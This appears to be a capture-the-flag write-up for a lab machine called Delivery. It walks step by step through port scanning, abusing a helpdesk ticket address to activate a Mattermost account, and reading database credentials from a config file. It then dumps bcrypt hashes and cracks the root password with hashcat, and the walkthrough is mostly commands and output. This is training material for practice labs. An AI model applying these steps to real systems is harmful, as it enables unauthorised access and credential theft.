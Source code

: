 Target: 10.10.10.222

## Enumeration:

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-20 11:20 PDT
Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222

![](delivery1.png)

clicking contact us

![](delivery2.png)

adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

### Findings:Looking for attack vectors

[Hacking through helpdesk blog post](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)


## Foothold:

visiting the subdomain

![](delivery3.png)

creating ticket

![](delivery4.png)

```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```
![](delivery5.png)

checking inbox

![](delivery6.png)

activate the account using the link

![](delivery7.png)

Loot:

`maildeliverer:Youve_G0t_Mail!`


## Lateral Movement:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

`root:PleaseSubscribe!21`

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
